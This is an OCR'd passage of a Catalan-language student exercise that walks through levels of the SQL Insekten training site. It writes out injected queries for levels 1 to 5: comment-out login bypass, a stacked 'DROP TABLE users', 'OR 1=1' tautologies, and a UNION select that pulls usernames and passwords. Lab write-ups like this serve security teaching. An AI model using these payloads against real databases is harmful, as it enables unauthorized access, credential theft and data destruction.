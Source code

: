 Revisar i analitzar periòdicament els registres.

Emmagatzemar i protegir de manera segura els fitxers de registre.


## **2. Obre el següent enllaç [(sql inseckten)](https://www.sql-insekten.de/) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL.** 

**a. Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.**

Nivell 1:

SELECT username 

FROM users 

WHERE username ='jane'--' AND password ='d41d8cd98f00b204e9800998ecf8427e';

En aquest nivell posem el nom d'usuari a jane i comentem la part on el programa el válida.

Nivell 2:

SELECT username 

FROM users 

WHERE username ='';DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

En aquest nivell em d’escriure DROP TABLE users per esborrar completament la taula de users i després comentar l’altre part del codi.

Nivell 3:

SELECT username 

FROM users 

WHERE username ='' OR 1=1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e'

En aquest nivell escrivim OR 1=1 per aixins perque si o si sigui true.

Nivell 4:

SELECT username 

FROM users 

WHERE username ='' OR 1=1 ORDER BY user_id LIMIT 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

En aquest nivell es el mateix que el nivell 3 pero aquí hem de posar un LIMIT per a que aixins només agafi un usuari.

Nivell 5:

SELECT product_id, brand, size, price 

FROM shoes 

WHERE brand='' UNION select username, password from users; --';
